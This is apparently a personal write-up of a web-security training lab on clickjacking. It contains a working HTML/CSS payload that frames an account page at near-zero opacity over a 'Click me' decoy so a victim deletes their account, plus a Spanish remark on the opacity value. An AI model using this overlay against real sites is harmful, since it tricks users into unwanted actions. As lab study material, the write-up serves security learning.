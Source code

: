 # 01 Lab: Basic clickjacking with CSRF token protection

```jsx
This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: wiener:peter
```

```jsx
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>

```

![image.png](01%20Lab%20Basic%20clickjacking%20with%20CSRF%20token%20protecti%20bfdf09e29f5e49bcba131b9923dbbf47/image.png)

![image.png](01%20Lab%20Basic%20clickjacking%20with%20CSRF%20token%20protecti%20bfdf09e29f5e49bcba131b9923dbbf47/image%201.png)

![image.png](01%20Lab%20Basic%20clickjacking%20with%20CSRF%20token%20protecti%20bfdf09e29f5e49bcba131b9923dbbf47/image%202.png)

```jsx
<style>
    iframe {
        position:relative;
        width:700px;
        height: 700px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:497px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a2600e2034886538053e9cb00a00064.web-security-academy.net/my-account"></iframe>
```

![image.png](01%20Lab%20Basic%20clickjacking%20with%20CSRF%20token%20protecti%20bfdf09e29f5e49bcba131b9923dbbf47/image%203.png)

Es importante el opacity, en mi caso he probado con diferentes bvalores y el que me aceptó es el siguiente opacity: 0.00001